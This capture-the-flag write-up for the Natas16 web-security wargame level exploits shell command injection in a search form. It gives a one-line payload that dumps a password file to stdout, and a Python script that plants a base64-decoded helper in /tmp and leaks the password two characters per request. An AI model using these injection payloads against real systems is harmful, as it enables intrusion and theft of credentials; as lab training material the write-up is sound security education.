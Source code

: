 # Natas16
Cracking without brute-forcing

## Solution 1: getting the password using a redirection trick - with a single request!
Vulnerabilities:
* Shell comannd injection using: $( ) and < >

In Linux, it's possible to easily write to the stdout of the current bash session.
All is needed to get the password is to send this payload:
```
$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)qqq
```
Explanation:
* $$ - current bash PID
* /proc/{process ID}/fd/1 - stdout
* qqq - a search string likely to return empty results


## Solution 2: exfiltrating the password 2-characters per request 
[Source code - Python 3](natas16.py)

Vulnerabilities:
- Shell comannd injection using: $( ) and < >
- Read/Write/Execute access to /tmp folder

### Making use of large result set
This approach takes advantage of the large amount of possible return values, to minimize the number of requests needed to get the password.
In this case, <ins>only 16 requests</ins> were needed to exfiltrate the 32-characters password.

The file 'dictionary.txt' has 50253 unique rows, so an exploit can signal any value in the range 1-50253.
For example, to signal the value 9158 we can check what is the word that line in the dictionary => congratulations.
By providing _^congratulations$_ to the grep command, we should get the same word on the html output.
Wrapped with ^ and $ guarantees no characters before and after the search string.

On the client side, the response word could be the searched in a local copy of dictionary and the found line number would be the signaled number.

### "Shifter" Helper utility - pick one parameter from a list by its index
This bash script was needed to bypass pipes and quotes characters filters.
```
shift $1
echo $1
```

usage:
```
shifter.sh 3 100 200 300 400 500
```
will return 300

In order to install this script:
1. Encode it as base64.
```python
shifter_script = "shift $1\necho $1\n\n"
shifter_b64 = base64.b64encode(bytes(shifter_script,"ascii")).decode('ascii')
```

2. Write it to /tmp folder
```python
payload = f'$(echo -n {shifter_b64} > /tmp/shifter.b64)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```  

3. Base64 decode it
```python
payload = '$(base64 -d < /tmp/shifter.b64 > /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

4. Make it executable
```python
payload='$(chmod a+x /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

### Getting a copy of dictionary.txt
```python
r = requests.get(f'{base_url}/dictionary.txt', auth=auth)
diclines = r.text.splitlines() 
```

### Exfiltrating the password characters
Since the password has only ASCII characters (code < 128), each pair of characters packed as 16-bit unsigned intger would have the maximum value of:
127*256 + 127 = 32639. This fits nicely into the 50253 options available.

So, for each character pair, the request should perform:

* Convert the password string to a list of 16-bit unsigned int numbers (each pair of characters to a number)
```
od -An -tu2 -w64 < /etc/natas_webpass/natas17
```

* Pick a specific number from a list
```
/tmp/shifter.sh {index} {list of numbers}
```

* Search the dictionary for a specific line number:
```
sed -n {line_number}p < dictionary.txt
```

```python
matches = []
for pair in range(1,17): 
  payload=f'^$(sed -n $(/tmp/shifter.sh {pair} $(od -An -tu2 -w64 < /etc/natas_webpass/natas17))p < dictionary.txt)$'
  r = requests.post(base_url, data={"needle": payload}, auth=auth)
  reply_text = r.text.replace('\n', ' ').replace('\r', '')
  m = re.search('<pre>(.+)</pre>', reply_text)
  word = m.group(1).strip()
  matches.append(word)
```

Result processing:
The HTML result for each request is parsed using Regex to extract matching word.
That word is searched on the dictionary to get its line number.
The line number is split to two bytes that are converted to characters.

All the resulting characters are then combined to the target password

```python
elb = []
for m in matches:
  i = diclines.index(m)+1
  elb.append(i & 255)
  elb.append(i >> 8)

#password
print("".join([chr(c) for c in elb]))

#cleanup
payload = '$(rm /tmp/shifter.*)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

